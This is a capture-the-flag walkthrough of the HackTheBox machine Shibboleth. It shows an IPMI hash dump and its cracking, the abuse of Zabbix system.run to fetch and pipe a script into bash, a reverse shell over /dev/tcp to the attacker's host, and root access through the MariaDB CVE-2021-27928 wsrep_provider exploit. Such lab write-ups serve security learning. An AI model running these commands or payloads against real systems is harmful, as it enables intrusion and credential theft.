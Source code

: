 ```bash
ghost@localhost [22:13:48] [~/Documents/hacking/tj-null-boxes/shibboleth] [master]
-> % export IP=10.10.10.124

ghost@localhost [22:13:48] [~/Documents/hacking/tj-null-boxes/shibboleth] [master]
-> % export DOMAIN=shibboleth.htb
```

# Scan

```bash
ghost@localhost [22:14:27] [~/Documents/hacking/tj-null-boxes/shibboleth] [master]
-> % rustscan -a $IP -- -sC -sV
Open 10.10.11.124:80

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.41
|_http-title: Did not follow redirect to http://shibboleth.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

# Port 80 /

Gobuster result as below.
```bash
ghost@localhost [22:41:29] [~/Documents/hacking/tj-null-boxes/shibboleth] [master]
-> % gobuster dir -u http://$DOMAIN -k -w /usr/share/dirb/wordlists/common.txt
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/assets               (Status: 301) [Size: 317] [--> http://shibboleth.htb/assets/]
/forms                (Status: 301) [Size: 316] [--> http://shibboleth.htb/forms/]
/index.html           (Status: 200) [Size: 59474]
/server-status        (Status: 403) [Size: 279]
```

The server contains nothing interesting in particular, contact form is not working either. Therefore, I start looking for subdomains instead.

```bash
ghost@localhost [22:55:45] [~/Documents/hacking/tj-null-boxes/shibboleth] [master]
-> % ffuf -u http://$DOMAIN -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18
monitor                 [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 614ms]
monitoring              [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 410ms]
zabbix                  [Status: 200, Size: 3689, Words: 192, Lines: 30, Duration: 409ms]
```

## Zabbix

Default credentials does not work. Therefore, I scan UDP ports.

```bash
ghost@localhost [23:06:05] [~/Documents/hacking/tj-null-boxes/shibboleth] [master]
-> % sudo nmap -sU -v $IP --min-rate=500
Scanning shibboleth.htb (10.10.11.124) [1000 ports]
Discovered open port 623/udp on 10.10.11.124

623/udp   open   asf-rmcp
```

Search `asf-rmcp` vulnerability will shows this result (https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi) in Google that talks about IPMI protocol.

This blog (https://www.rapid7.com/blog/post/2013/07/02/a-penetration-testers-guide-to-ipmi/) explains well about the IPMI protocol, and it's vulnerability. I am using metasploit to dump the password hashes.

```bash
[*] Starting persistent handler(s)...
msf6 >  search ipmi

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank    Check  Description
   -  ----                                                    ---------------  ----    -----  -----------
   0  auxiliary/scanner/ipmi/ipmi_cipher_zero                 2013-06-20       normal  No     IPMI 2.0 Cipher Zero Authentication Bypass Scanner
   1  auxiliary/scanner/ipmi/ipmi_dumphashes                  2013-06-20       normal  No     IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval
   2  auxiliary/scanner/ipmi/ipmi_version                                      normal  No     IPMI Information Discovery
   3  exploit/multi/upnp/libupnp_ssdp_overflow                2013-01-29       normal  No     Portable UPnP SDK unique_service_name() Remote Code Execution
   4  auxiliary/scanner/http/smt_ipmi_cgi_scanner             2013-11-06       normal  No     Supermicro Onboard IPMI CGI Vulnerability Scanner
   5  auxiliary/scanner/http/smt_ipmi_49152_exposure          2014-06-19       normal  No     Supermicro Onboard IPMI Port 49152 Sensitive File Exposure
   6  auxiliary/scanner/http/smt_ipmi_static_cert_scanner     2013-11-06       normal  No     Supermicro Onboard IPMI Static SSL Certificate Scanner
   7  exploit/linux/http/smt_ipmi_close_window_bof            2013-11-06       good    Yes    Supermicro Onboard IPMI close_window.cgi Buffer Overflow
   8  auxiliary/scanner/http/smt_ipmi_url_redirect_traversal  2013-11-06       normal  No     Supermicro Onboard IPMI url_redirect.cgi Authenticated Directory Traversal


Interact with a module by name or index. For example info 8, use 8 or use auxiliary/scanner/http/smt_ipmi_url_redirect_traversal
```

Using the `ipmi_dumphashes` module, I dump the credential.

```bash
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set OUTPUT_HASHCAT_FILE /home/ghost/Downloads/ipmi.out
OUTPUT_HASHCAT_FILE => /home/ghost/Downloads/ipmi.out
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOSTS 10.10.11.124
RHOSTS => 10.10.11.124
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

[+] 10.10.11.124:623 - IPMI - Hash found: Administrator:c0ed195a82010000886b5630d7d3da58517ca8aa8e593ebb726fa3c4905fba3cf5953f310750044ca123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:5d1f5d7bd0ff5bf341c60788a6f8612fb9cad3c9
```

Using `hashcat` I crack the password of the user `Administrator`.

```bash
ghost@localhost [23:27:25] [~/Documents/hacking/tj-null-boxes/shibboleth] [master *]
-> % hashcat hashes /usr/share/wordlists/rockyou.txt --username

c0ed195a82010000886b5630d7d3da58517ca8aa8e593ebb726fa3c4905fba3cf5953f310750044ca123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:5d1f5d7bd0ff5bf341c60788a6f8612fb9cad3c9:ilovepumkinpie1
```

## IPMI tool

```bash
ghost@localhost [23:34:35] [~/Documents/hacking/tj-null-boxes/shibboleth] [master *]
-> % ipmitool -H $IP -U Administrator -P ilovepumkinpie1 -I lanplus
No command provided!
```

Using the tool, there's nothing I can do. I tried to enumerate the users by entering `user list` and there's only an Administrator. Therefore, this time I tried to use the same credential on Zabbix login and it works.

I hosted the following `index.html` file that contains bash code and serve it with python server at port 80.

```bash
/bin/bash -c "bash -i >& /dev/tcp/10.10.16.8/4444 0>&1"
```

Then with netcat listening at port 4444, I created a new item in Zabbix with the following key.

```bash
system.run[curl 10.10.16.8|bash,nowait]
```

Click test and running it will gives back reverse shell.

```bash
ghost@localhost [23:41:20] [~/Documents/hacking/tj-null-boxes/shibboleth] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.124] 48232
bash: cannot set terminal process group (954): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$ id
uid=110(zabbix) gid=118(zabbix) groups=118(zabbix)

zabbix@shibboleth:/$ ls /home
ipmi-svc
```

# user.txt

Using same credential, I tried logging into `ipmi-svc` and it works.

```bash
zabbix@shibboleth:/$ su ipmi-svc
Password: ilovepumkinpie1

python3 -c 'import pty;pty.spawn("/bin/bash")'

ipmi-svc@shibboleth:/$ cat ~/user.txt
df7f38***
```

# Privilege Escalation

Not much interesting things going on but I found the MySQL credential from linpeas result.

```bash
╔══════════╣ Analyzing Zabbix Files (limit 70)
-rw-r----- 1 root ipmi-svc 21863 Apr 24  2021 /etc/zabbix/zabbix_server.conf
LogFile=/var/log/zabbix/zabbix_server.log
LogFileSize=0
PidFile=/run/zabbix/zabbix_server.pid
SocketDir=/run/zabbix
DBName=zabbix
DBUser=zabbix
DBPassword=bloooarskybluh
SNMPTrapperFile=/var/log/snmptrap/snmptrap.log
Timeout=4
AlertScriptsPath=/usr/lib/zabbix/alertscripts
ExternalScripts=/usr/lib/zabbix/externalscripts
FpingLocation=/usr/bin/fping
Fping6Location=/usr/bin/fping6
LogSlowQueries=3000
StatsAllowedIP=127.0.0.1

-rw-r--r-- 1 root root 15317 May 25  2021 /etc/zabbix/zabbix_agentd.conf
PidFile=/run/zabbix/zabbix_agentd.pid
LogFile=/var/log/zabbix/zabbix_agentd.log
LogFileSize=0
AllowKey=system.run[*]
LogRemoteCommands=1
Server=127.0.0.1,shibboleth
StartAgents=100
ServerActive=127.0.0.1,shibboleth
Hostname=shibboleth.htb
RefreshActiveChecks=60
Include=/etc/zabbix/zabbix_agentd.d/*.conf
TLSConnect=psk
TLSAccept=psk
TLSPSKIdentity=e72cf455-9184-4d87-b377-75f3118f4141
TLSPSKFile=/etc/zabbix/peeesskay.psk

drwxr-xr-x 4 root root 4096 Nov  8  2021 /etc/zabbix
-r-------- 1 zabbix zabbix 33 Apr 24  2021 /etc/zabbix/peeesskay.psk

drwxr-xr-x 4 root root 4096 Apr 27  2021 /usr/lib/zabbix

drwxr-xr-x 13 root root 12288 Nov  8  2021 /usr/share/zabbix

drwx------ 2 mysql mysql 20480 Apr 27  2021 /var/lib/mysql/zabbix
find: ‘/var/lib/mysql/zabbix’: Permission denied

drwxr-xr-x 2 zabbix zabbix 4096 Sep 21 15:34 /var/log/zabbix
```

## mysql 10.3.25

So based on the result, I found that it is running MariaDB 10.3.25 which has CVE-2021-27928 vulnerability (https://github.com/Al1ex/CVE-2021-27928).

```bash
ipmi-svc@shibboleth:/$ mysql -u zabbix -p
mysql -u zabbix -p
Enter password: bloooarskybluh

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 1202
Server version: 10.3.25-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

So I first generate the shell script, then serve it with python server to download back in the Zabbix machine. Then with another netcat running, waiting for incoming connection.

```bash
MariaDB [(none)]> SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
ERROR 2013 (HY000): Lost connection to MySQL server during query
MariaDB [(none)]>
```

```bash
ghost@localhost [00:25:07] [~/Documents/hacking/tj-null-boxes/shibboleth] [master *]
-> % nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.124] 40378
uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
bd312***
```
